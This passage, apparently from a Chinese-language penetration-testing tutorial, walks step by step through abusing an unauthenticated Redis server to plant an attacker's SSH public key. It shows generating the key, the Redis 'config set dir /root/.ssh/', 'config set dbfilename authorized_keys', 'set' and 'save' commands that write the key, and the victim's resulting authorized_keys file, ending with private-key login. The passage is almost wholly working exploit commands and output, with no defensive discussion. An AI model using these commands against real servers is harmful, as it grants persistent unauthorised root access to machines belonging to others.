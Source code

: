 具体操作如下及步骤：
- 生成恶意公钥
```
root@rose:~# ssh-keygen -t rsa
Generating public/private rsa key pair.
Enter file in which to save the key (/root/.ssh/id_rsa):
Enter passphrase (empty for no passphrase):
Enter same passphrase again:
Your identification has been saved in /root/.ssh/id_rsa.
Your public key has been saved in /root/.ssh/id_rsa.pub.
The key fingerprint is:
SHA256:DnZea6Npe0X0T6/kxM8T/nkGy0B6SyKSwv0aKNqDbN0 root@rose
The key's randomart image is:
+---[RSA 2048]----+
|                 |
|            .    |
|           . .   |
|            o . .|
|   . .o.S .+ . o.|
|    oo+=..o.= =.o|
|..o o..oo.+= B.*.|
|.=.o E .o+... =o*|
|o ..  .o+o     o=|
+----[SHA256]-----+
root@rose:~#
root@rose:~#
root@rose:~# ls -al /root/.ssh/
total 16
drwx------ 2 root root 4096 Aug  9 15:23 .
drwx------ 8 root root 4096 Aug  9 13:31 ..
-rw------- 1 root root    0 Feb 25 01:35 authorized_keys
-rw------- 1 root root 1675 Aug  9 15:23 id_rsa
-rw-r--r-- 1 root root  391 Aug  9 15:23 id_rsa.pub
root@rose:~# cd /root/.ssh/
root@rose:~/.ssh# cat id_rsa.pub
ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDHStzQa4aESwm/Rm/caKPQAblnb6OBCpxpCeahB2WKwnwoT6DuZ1ypzgYTjMEP6BOhySnSatDpdn7wZKUL7ZEaJdSAd0qD/QaHHLFMYvNXrGJQC+9JBvt5X5iUJOx5Ukdu36YXxRib4cw2qhDLnKa2Q96pEInVJcZ02VNxHTvAE+vjhCTQSYPJahin/s/a+IYEcjqyvkiuWVDWg2GMViMwq5Yh/ELZG2KAXNpSNx1TjklXYQVPO2dmPCdUYyy1r+WxEjWLJZPPWQntQc6KiqHmkEGBXGB4fVxScCVR8y2/DEzEqsQcveFWw7mhqfp9kNHP+AOv0wFwL9G8/glZEnGB root@rose
root@rose:~/.ssh#
```
- 写入恶意SSH公钥
```
config set dir /root/.ssh/
config set dbfilename authorized_keys
set x "\n\nssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDHStzQa4aESwm/Rm/caKPQAblnb6OBCpxpCeahB2WKwnwoT6DuZ1ypzgYTjMEP6BOhySnSatDpdn7wZKUL7ZEaJdSAd0qD/QaHHLFMYvNXrGJQC+9JBvt5X5iUJOx5Ukdu36YXxRib4cw2qhDLnKa2Q96pEInVJcZ02VNxHTvAE+vjhCTQSYPJahin/s/a+IYEcjqyvkiuWVDWg2GMViMwq5Yh/ELZG2KAXNpSNx1TjklXYQVPO2dmPCdUYyy1r+WxEjWLJZPPWQntQc6KiqHmkEGBXGB4fVxScCVR8y2/DEzEqsQcveFWw7mhqfp9kNHP+AOv0wFwL9G8/glZEnGB root@rose\n\n"
save
```
- 查看受害机写入情况
```
[root@localhost .ssh]# cat authorized_keys
REDIS0006▒xA▒

ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDHStzQa4aESwm/Rm/caKPQAblnb6OBCpxpCeahB2WKwnwoT6DuZ1ypzgYTjMEP6BOhySnSatDpdn7wZKUL7ZEaJdSAd0qD/QaHHLFMYvNXrGJQC+9JBvt5X5iUJOx5Ukdu36YXxRib4cw2qhDLnKa2Q96pEInVJcZ02VNxHTvAE+vjhCTQSYPJahin/s/a+IYEcjqyvkiuWVDWg2GMViMwq5Yh/ELZG2KAXNpSNx1TjklXYQVPO2dmPCdUYyy1r+WxEjWLJZPPWQntQc6KiqHmkEGBXGB4fVxScCVR8y2/DEzEqsQcveFWw7mhqfp9kNHP+AOv0wFwL9G8/glZEnGB root@rose

▒▒9q▒Y▒Y[root@localhost .ssh]#
```
- 攻击效果：私钥登录
